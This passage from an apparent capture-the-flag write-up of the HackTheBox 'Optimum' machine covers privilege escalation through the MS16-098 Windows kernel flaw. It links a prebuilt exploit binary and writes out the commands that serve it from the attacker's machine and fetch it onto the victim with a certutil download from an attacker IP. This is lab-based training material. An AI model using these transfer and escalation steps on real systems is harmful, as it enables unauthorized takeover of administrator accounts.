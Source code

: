 ```bash
# [E] MS16-098: Security Update for Windows Kernel-Mode Drivers (3178466) - Important
```

<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_33.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_34.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_35.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_36.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_37.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_38.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_39.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

For the **[exploit](https://www.exploit-db.com/exploits/41020/){:target="_blank"}** that allows to exploit the **MS16-098** vulnerability there is a **[SecWiki](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-098){:target="_blank"}** resource on **Github** that has an executable ready to run commands on a compromised machine and allows to escalate privileges to the user with maximum privileges. I just need to download it on my attacking machine and transfer it to the target machine, I can also verify with `md5sum` and `certutil.exe` that the binary has not been modified in the transfer. Sometimes you have to try different commands to transfer the file, I have found several successful ones that I already have half automated in my head. After executing it I succeed in engage the system administrator's account and access the last flag.

> **[MS16-098](https://learn.microsoft.com/en-us/security-updates/SecurityBulletins/2016/ms16-098?redirectedfrom=MSDN){:target="_blank"}**: The vulnerabilities could allow elevation of privilege if an attacker logs on to an affected system and runs a specially crafted application that could exploit the vulnerabilities and take control of an affected system.

> **Attacker Machine**:

```bash
mv /home/al3j0/Downloads/bfill.exe .
python3 -m http.server 80
```

> **Victime Machine**:

```cmd
start /b powershell certutil.exe -f -urlcache -split http://10.10.14.84/bfill.exe bfill.exe
```

> **Attacker Machine**:

```bash
md5sum bfill.exe
```
